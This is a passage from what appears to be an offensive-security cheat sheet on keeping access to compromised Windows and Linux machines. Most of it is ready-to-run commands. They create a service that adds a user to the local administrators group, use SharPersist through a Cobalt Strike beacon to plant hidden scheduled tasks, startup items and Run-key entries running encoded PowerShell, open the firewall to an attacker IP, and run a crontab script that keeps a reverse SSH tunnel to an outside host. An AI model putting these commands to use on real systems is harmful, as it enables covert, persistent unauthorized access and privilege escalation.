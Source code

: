Create a service that will auto run at next reboot:

```
Cmd > sc.exe create lpesvc displayName= "lpesvc" binPath= "C:\Windows\System32\net.exe localgroup administrators snovvcrash /add" obj= LocalSystem start= auto
```

Check if `scmanager` SDDL has been modified:

```
PS > ConvertFrom-SddlString -Sddl $(sc.exe sdshow scmanager | select -Last 1) | select -Expand DiscretionaryAcl
```



### Tools


#### SharPersist

- [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

```
beacon> execute-assembly SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64_CMD>" -n "Updater" -m add -o hourly
beacon> execute-assembly SharPersist.exe -t startupfolder -f "UserEnvSetup" -m add
beacon> execute-assembly SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## Linux



### SSH

Add a temporary rule allowing connections from your IP:

```
$ sudo iptables -A INPUT -p tcp -s 10.10.13.37 --dport 22 -j ACCEPT
```



### SSH Tunnel in Crontab

{% code title="callback.sh" %}
```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 [-oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa] [-oServerAliveInterval=300 -oServerAliveCountMax=3] -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -oIdentitiesOnly=yes -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```
{% endcode %}

